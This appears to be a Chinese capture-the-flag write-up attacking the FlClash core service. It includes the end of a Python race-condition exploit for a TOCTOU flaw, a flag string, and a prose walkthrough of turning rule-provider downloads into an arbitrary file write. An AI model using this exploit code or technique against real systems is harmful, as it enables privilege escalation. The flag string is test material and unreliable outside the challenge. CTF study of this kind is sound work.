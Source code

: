 ```py
        # print("swapped to FlClashCore")

        break


def start_clash():
    SERVICE_PORT = 47890
    for _ in range(3):
        print("starting clash")
        print(
            requests.post(
                f"http://localhost:{SERVICE_PORT}/start",
                json={"path": "/tmp/FlClashCore_nobody", "arg": f"{SERVICE_PORT}"},
            ).text
        )


if __name__ == "__main__":
    init_file()

    print("init file done")
    t1 = threading.Thread(target=start_clash)
    t2 = threading.Thread(target=swap_file)
    t1.start()
    time.sleep(1.2)
    t2.start()
    t1.join()
    t2.join()

# flag{s1mPLE-ToCTOu-NdAY-GogOgO}
```


### flag2

flag2把这个TOCTOU修了，现在执行的是一个root目录下的固定路径，我们无法干预了。

我们可以简单看一下这个core到底干了什么，在FlClashCore源码的core目录下，有几个go module，稍微解读一下代码，可以理解这个go程序启动时需要传入一个参数（一个TCP端口或者Unix Socket），它会尝试与这个端口建立连接。我们可以本地`nc -l -k 9000`测试一下，从路由来看似乎需要以json格式进行通信（或许应该称为json RPC？），json的schema可以在`action.go`里看出来，go的变量名与json字段映射基本在`constant.go`里，大部分路由处理函数在`hub.go`里，一些更底层的、涉及与clash meta交互的部分写到了`common.go`里。主要就是这些功能。

我本人也是clash的重度用户，我记得当年CFW还健在的时候，当时就是provider的路径字段被指定时，可以控制从provider下载的配置的地址，我这次也是走的这条攻击路径，结果走通了，看到二阶段提示发现和自己的思路不一样，那我详细说说。

首先，`initClash`方法可以设置一个家目录，这个家目录会影响`setupConfig`等函数调用时，读取默认配置的位置（`$HOME/config.json`）。当调用`setupConfig`读取到有效配置中，含有`rule-provider`或者`proxy-provider`时，会从`url`字段下载配置文件，并保存到`path`字段的路径。`proxy-provider`的格式似乎必须是json等，但`rule-provider`可以是纯文本，有利于我们写poc。我们可以起一个`python3 -m http.server 8000`静态文件服务器，就可以让FlClashCore下载我们提供的配置文件，并且实现任意地址写的功能。

> `Clash`配置文件文档现在只能[Web of Archive](https://web.archive.org/web/20230521135419/https://dreamacro.github.io/clash/premium/rule-providers.html)见了
